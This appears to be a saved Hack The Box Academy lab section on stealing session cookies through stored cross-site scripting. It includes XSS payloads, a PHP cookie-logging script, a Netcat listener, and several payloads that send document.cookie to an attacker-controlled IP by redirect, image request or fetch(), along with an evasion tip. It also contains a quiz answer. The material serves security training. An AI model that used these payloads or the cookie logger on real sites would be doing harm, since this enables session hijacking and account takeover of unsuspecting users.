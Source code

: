 ﻿Cross-Site Scripting (XSS) vulnerabilities are among the most common web application vulnerabilities. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser and result in complete web application compromise if chained together with other vulnerabilities. In this section, though, we will focus on exploiting Cross-Site Scripting (XSS) vulnerabilities to obtain valid session identifiers (such as session cookies).

If you want to dive deeper into Cross-Site Scripting (XSS) vulnerabilities, we suggest you study ourÂ [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/module/details/103)Â module.

For a Cross-Site Scripting (XSS) attack to result in session cookie leakage, the following requirements must be fulfilled:

- Session cookies should be carried in all HTTP requests
- Session cookies should be accessible by JavaScript code (the HTTPOnly attribute should be missing)

Proceed to the end of this section and click onÂ `Click here to spawn the target system!`Â or theÂ `Reset Target`Â icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`xss.htb.net`) to access the application.

Navigate toÂ `http://xss.htb.net`Â and log in to the application using the credentials below:

```ad-note
- Email: crazygorilla983
- Password: pisces
```

This is an account that we created to look at the application's functionality. It looks like we can edit the input fields to update our email, phone number, and country.

![image](https://academy.hackthebox.com/storage/modules/153/20.png)

In such cases, it is best to use payloads with event handlers likeÂ `onload`Â orÂ `onerror`Â since they fire up automatically and also prove the highest impact on stored XSS cases. Of course, if they're blocked, you'll have to use something else likeÂ `onmouseover`.

In one field, let us specify the following payload:

```javascript
"><img src=x onerror=prompt(document.domain)>
```

We are usingÂ `document.domain`Â to ensure that JavaScript is being executed on the actual domain and not in a sandboxed environment. JavaScript being executed in a sandboxed environment prevents client-side attacks. It should be noted that sandbox escapes exist but are outside the scope of this module.

In the remaining two fields, let us specify the following two payloads.

```javascript
"><img src=x onerror=confirm(1)>
```

```javascript
"><img src=x onerror=alert(1)>
```

We will need to update the profile by pressing "Save" to submit our payloads.

![image](https://academy.hackthebox.com/storage/modules/153/21.png)

The profile was updated successfully. We notice no payload being triggered, though! Often, the payload code is not going to be called/executed until another application functionality triggers it. Let us go to "Share," as it is the only other functionality we have, to see if any of the submitted payloads are retrieved in there. This functionality returns a publicly accessible profile. Identifying a stored XSS vulnerability in such a functionality would be ideal from an attacker's perspective.

That is indeed the case! The payload specified in theÂ _Country_Â field fired!

![image](https://academy.hackthebox.com/storage/modules/153/22.png)

Let us now check ifÂ _HTTPOnly_Â is "off" using Web Developer Tools.

![image](https://academy.hackthebox.com/storage/modules/153/23.png)

_HTTPOnly_Â is off!

---

## Obtaining session cookies through XSS

We identified that we could create and share publicly accessible profiles that contain our specified XSS payloads.

Let us create a cookie-logging script (save it asÂ `log.php`) to practice obtaining a victim's session cookie through sharing a vulnerable to stored XSS public profile. The below PHP script can be hosted on a VPS or your attacking machine (depending on egress restrictions).

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

This script waits for anyone to requestÂ `?c=+document.cookie`, and it will then parse the included cookie.

The cookie-logging script can be run as follows.Â `TUN Adapter IP`Â is theÂ `tun`Â interface's IP of either Pwnbox or your own VM.

```shell-session
smoothment@htb[/htb]$ php -S <VPN/TUN Adapter IP>:8000
[Mon Mar  7 10:54:04 2022] PHP 7.4.21 Development Server (http://<VPN/TUN Adapter IP>:8000) started
```

Before we simulate the attack, let us restore Ela Stienen's original Email and Telephone (since we found no XSS in these fields and also want the profile to look legitimate). Now, let us place the below payload in theÂ _Country_Â field. There are no specific requirements for the payload; we just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes.

Payload:

```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

**Note**: If you're doing testing in the real world, try using something likeÂ [XSSHunter](https://xsshunter.com/),Â [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator)Â orÂ [Project Interactsh](https://app.interactsh.com/). A default PHP Server or Netcat may not send data in the correct form when the target web application utilizes HTTPS.

A sample HTTPS>HTTPS payload example can be found below:

```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

**Simulate the victim**

Open aÂ `New Private Window`, navigate toÂ `http://xss.htb.net`Â and log in to the application using the credentials below:

- Email: smallfrog576
- Password: guitars

This account will play the role of the victim!

Now, navigate toÂ `http://xss.htb.net/profile?email=ela.stienen@example.com`. This is the attacker-crafted public profile that hosts our cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified).

You should now see the below in your attacking machine.

![image](https://academy.hackthebox.com/storage/modules/153/52.png)

Terminate the PHP server with Ctrl+c, and the victim's cookie will reside insideÂ `cookieLog.txt`

![image](https://academy.hackthebox.com/storage/modules/153/53.png)

You can now use this stolen cookie to hijack the victim's session!

---

## Obtaining session cookies via XSS (Netcat edition)

Instead of a cookie-logging script, we could have also used the venerable Netcat tool.

Let us try that as well for completeness's sake.

Before we simulate the attack, let us place the below payload in theÂ _Country_Â field of Ela Stienen's profile and click "Save." There are no specific requirements for the payload. We just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes.

```javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

Let us also instruct Netcat to listen on port 8000 as follows.


```shell-session
smoothment@htb[/htb]$ nc -nlvp 8000
listening on [any] 8000 ...
```

Open aÂ `New Private Window`Â and navigate toÂ `http://xss.htb.net/profile?email=ela.stienen@example.com`, simulating what the victim would do. We remind you that the above is an attacker-controlled public profile hosting a cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified).

By the time you hold your mouse over "test," you should now see the below in your attacking machine.

![image](https://academy.hackthebox.com/storage/modules/153/54.png)

Please note that the cookie is a Base64 value because we used theÂ `btoa()`Â function, which will base64 encode the cookie's value. We can decode it usingÂ `atob("b64_string")`Â in the Dev Console of Web Developer Tools, as follows.

![image](https://academy.hackthebox.com/storage/modules/153/55.png)

You can now use this stolen cookie to hijack the victim's session!

We don't necessarily have to use theÂ `window.location()`Â object that causes victims to get redirected. We can useÂ `fetch()`, which can fetch data (cookies) and send it to our server without any redirects. This is a stealthier way.

Find an example of such a payload below.

```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```

Give it a try...

It is about time we jump to another session attack called Cross-Site Request Forgery (CSRF or XSRF).

# Question
---

![Pasted image 20250219124916.png](../../../../IMAGES/Pasted%20image%2020250219124916.png)

Answer is:

```
yes
```
